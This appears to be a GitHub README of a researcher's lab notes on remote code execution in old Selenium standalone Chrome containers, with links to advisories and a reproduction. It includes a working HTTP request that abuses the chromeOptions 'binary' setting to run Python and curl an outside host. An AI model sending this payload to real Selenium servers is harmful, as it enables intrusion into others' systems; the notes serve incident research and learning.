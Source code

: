 # selenium_code_exec_notes
Selenium Chrome 3.141.59 code exec notes

Note: this is not anything new. This repo just contains notes.

I was researching weird code execution alert in a selenium docker container. 
I'm surprised someone is running the old versions in 2024 and i'm even more suprised that someone is targeting this.

I started researching what the vuln could be and came across the following resources:
- https://www.reddit.com/r/selfhosted/comments/12drr31/remote_server_compromised/ - reddit user discussing similar incident
- https://pixeldrain.com/u/durDp8dh - logs from the reddit user above. shows "goog:chromeOptions" and "binary" used to execute python
- https://www.exploit-db.com/exploits/49915 - exploit 
- https://www.cybersecurity-help.cz/vdb/SB2021060114 - vuln info
- https://www.gabriel.urdhr.fr/2022/02/07/selenium-standalone-server-csrf-dns-rebinding-rce/ - This helped a lot! This pretty much shows the similar execution to the execution seen by the reddit user. My python script is based on this blog.


For fun/learning, I wanted to replicate it in my lab.

# running the container
```
docker pull selenium/standalone-chrome-debug:3.141.59-20210929 
docker run --rm -p 4444:4444 selenium/standalone-chrome-debug:3.141.59-20210929
```

Container running:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/48a72575-1954-41c5-a353-03024e68a8d0)

poc execution:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/28cc34d1-5538-4d58-921f-3e0b8a30766e)

curl request to my server:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/66dc8e2f-ef7c-4de7-88a4-c810660c6c9d)

docker logs:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/6b43c002-a9a8-4fba-b978-f334aab810c9)

HTTP request:
```
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
Content-Length: 199

{"capabilities": {"alwaysMatch": {"browserName": "chrome", "goog:chromeOptions": {"binary": "/usr/bin/python3", "args": ["-cimport os;os.system('curl http://192.168.42.130:8080/from_container')"]}}}
```

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/3f45571a-4ba7-4ad8-a0f9-6adf62876606)
